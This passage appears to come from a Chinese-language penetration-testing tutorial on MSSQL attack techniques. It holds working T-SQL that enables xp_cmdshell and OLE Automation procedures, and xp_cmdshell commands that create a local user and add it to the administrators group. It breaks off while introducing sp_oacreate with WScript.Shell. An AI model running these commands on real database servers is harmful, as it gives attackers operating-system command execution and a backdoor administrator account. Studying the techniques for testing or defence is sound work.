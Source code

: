 ![image-20240727155911560](https://image.201068.xyz/assets/MSSQL/image-20240727155911560.png)



#### 4.4.3 XP_cmdshell 利用

##### 开启xp_cmdshell

```mssql
USE master 																--进入master数据库
exec sp_configure 'show advanced option',1 	 --启用高级选项
reconfigure																--更新缓存
exec sp_configure 'xp_cmdshell',1 					--打开 xp_cmdshell,可以调用 SQL 系统之外的命令

SELECT * FROM sys.configurations WHERE name='xp_cmdshell' OR name='show advanced options' --确认配置文件是否修改成功
```

![image-20240727162411244](https://image.201068.xyz/assets/MSSQL/image-20240727162411244.png)

> 注：reconfigure --更新缓存，每次修改配置文件时都需要更新一次

##### 使用xp_cmdshell

```mssql
exec xp_cmdshell 'ipconfig';
exec xp_cmdshell 'net user test1 123456 /add';
exec xp_cmdshell 'net localgroup administrators test1 /add';
exec xp_cmdshell 'net localgroup administrators';
```



####  4.4.4 sp_oacreate 配合 sp_oamethod 的利用过程

##### 开启

```mssql
exec sp_configure 'show advanced options',1;
reconfigure with override; //强制执行

exec sp_configure 'ole automation procedures',1;
reconfigure with override;
```

![image-20240727162946891](https://image.201068.xyz/assets/MSSQL/image-20240727162946891.png)

注：`OLEAutomation Procedures` 是 SQLServer 中一组用于操作 `OLE` 对象的过程。这些过程允许您在 SQLServer中创建、调用和管理 `OLE` 对象，从而实现与外部应用程序的交互。

##### 使用

（1）使用`sp_oacreate` 调用 `wscript.shell` 组件，将返回的对象存储到`@shellx`变量中。

注：`sp_oacreate` 是 SQLServer 中的一个存储过程，用于创建 OLE 对象。它允许在 SQLServer 中调用外部应用程序或组件，并返回一个指向该对象的引用。

`WScript.Shell` 是 Windows 脚本宿主对象，它提供了一组方法和属性，用于在 Windows 操作系统中执行各种操作。
